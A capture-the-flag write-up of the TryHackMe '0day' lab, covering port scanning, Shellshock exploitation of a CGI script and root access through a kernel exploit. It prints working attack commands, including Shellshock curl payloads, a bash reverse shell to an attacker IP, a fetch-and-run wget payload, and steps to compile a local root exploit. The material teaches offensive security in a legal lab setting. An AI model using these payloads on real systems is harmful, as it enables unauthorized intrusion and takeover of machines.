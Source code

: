 ```yaml
---
title: TryHackMe 0day
categories: [TryHackMe]
tags: [linux, nmap, gobuster, web, CVE-2014-6271, shellshock, CVE-2015-1328, kernel-exploit]
media_subpath: /images/tryhackme_0day
image:
  path: room-image.jpeg
---
```


Room link: [https://tryhackme.com/room/0day](https://tryhackme.com/room/0day)

This room started from enumerating the webpage to finding its vulnerability (CVE-2014-6271 - Shellshock) and exploiting it gaining shell.
From there, a kernel exploit CVE-2015-1328 was used for privilege escalation


## Enumeration
Starting off with basic nmap scan

```console
$ nmap -p- 10.10.239.33	
Nmap scan report for 10.10.239.33
Host is up (0.029s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

2 open ports:
- 22 (SSH)
- 80 (HTTP)

```console
$ nmap -sS -sC -sV -T4 10.10.239.33
Nmap scan report for 10.10.239.33
Host is up (0.025s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 57:20:82:3c:62:aa:8f:42:23:c0:b8:93:99:6f:49:9c (DSA)
|   2048 4c:40:db:32:64:0d:11:0c:ef:4f:b8:5b:73:9b:c7:6b (RSA)
|   256 f7:6f:78:d5:83:52:a6:4d:da:21:3c:55:47:b7:2d:6d (ECDSA)
|_  256 a5:b4:f0:84:b6:a7:8d:eb:0a:9d:3e:74:37:33:65:16 (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: 0day
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nothing interesting here on webpage, let's run gobster hopefully find some directories

![Webpage](webpage.png)

![Gobuster](gobuster.png)

Thought `robots.txt` would give something useful but it didn't

Okay let's move on to check some directories. `/cgi-bin` - forbidden. `/uploads` and `/admin` directories was empty.
Found RSA private key in `/backup` directory and cracked it using john. **spoiler**: appeared to be rabbit hole :)

`/secret` contained an image of turtle from description of the room. I hoped it contains stego but its not - another rabbit hole

I guess its time to run `nikto` web scanner

```console
nikto -host <TARGET_IP>
```

It found that `test.cgi` is vulnerable to "Shellshock" exploit which allowed to execute commands on vulnerable 
versions of `Bash`

[https://github.com/opsxcq/exploit-CVE-2014-6271](https://github.com/opsxcq/exploit-CVE-2014-6271)

To test this we can run

```console
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://<TARGET-IP>:80/cgi-bin/test.cgi
```

1) `() { :; };`

- `()` is the function name

- `{ :; };` is the function body

- `:` returns 0

- `;` indicates ending of command

- `};` closes function

2) `echo; echo; /bin/bash -c 'cat /etc/passwd'`

- executes right after function declaration

![Testing-shellshock](testing-shellshock.png)

BOOM! we got response. We can now upload reverse shell to our target machine to get shell


## Exploiting vulnerability

1) Create script `script_name.sh` and change `<IP>` to 
your THM IP (you can check it typing `ip a` or `ifconfig`, use IP from tun0 interface).
Also change port to the port you will be listening

```bash
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/<IP>/<LISTENING_PORT> 0>&1'
```

2) Run `nc -lnvp <PORT>` where PORT is listening port.
It needs to be same as in your reverse shell

3) In first terminal start a server `python -m http.server 8000`.
In second terminal type and press enter :
```console
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cd /tmp; wget http://<YOUR_IP>:8000/revshell.sh; chmod +x revshell.sh; ./revshell.sh'" \
http://<TARGET_IP>:80/cgi-bin/test.cgi
```
- `cd /tmp` - cd to /tmp directory where we will download our reverse shell

- `wget http://<YOUR_IP>:8000/revshell.sh` will download `revshell.sh` script to target machine (dont forget to change `YOUR_IP`)

- `chmod +x revshell.sh` makes script executable

- `./revshell.sh` executes script

Example:

![Shell](revshell-ran.png)

Now as we got a shell we need to stabilize it:


```console
python -c "import pty; pty.spawn('/bin/bash')"
```

Press CTRL+Z and type

```console
stty raw -echo; fg
```

Press ENTER

```console
export TERM=xterm
```
### User flag

Now we can read user flag `/home/ryan/user.txt`

```
www-data@ubuntu:/home/ryan$ cat user.txt
THM{[REDACTED]}
```

## Privilege Escalation

It appears that there is possible kernel exploit

![Check-os-version](os-version.png)

We can use `searchsploit` to find something

![Searchsploit](searchsploit.png)

We want to use first one, copy it using `searchsploit -m 37292` and transfer to our target

![Transfering-cve](transfering-exploit.png)

Tried to compile it but we an error `gcc: error trying to exec 'cc1': execvp: No such file or directory`. `gcc` didnt find
`cc1`. We need it to be in our PATH (if you type echo $PATH there will be /sbin:. which will look for executable in /sbin directory and then it current directory '.'),
we can do that with following:

```console
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Now compile with following and run compiled binary

```console
gcc 37292.c -o exploit
```

```console
./exploit
```

![Getting-root](root.png)

### Root flag

Like so we able to read root flag

```console
# cat /root/root.txt
THM{[REDACTED]}
```

---
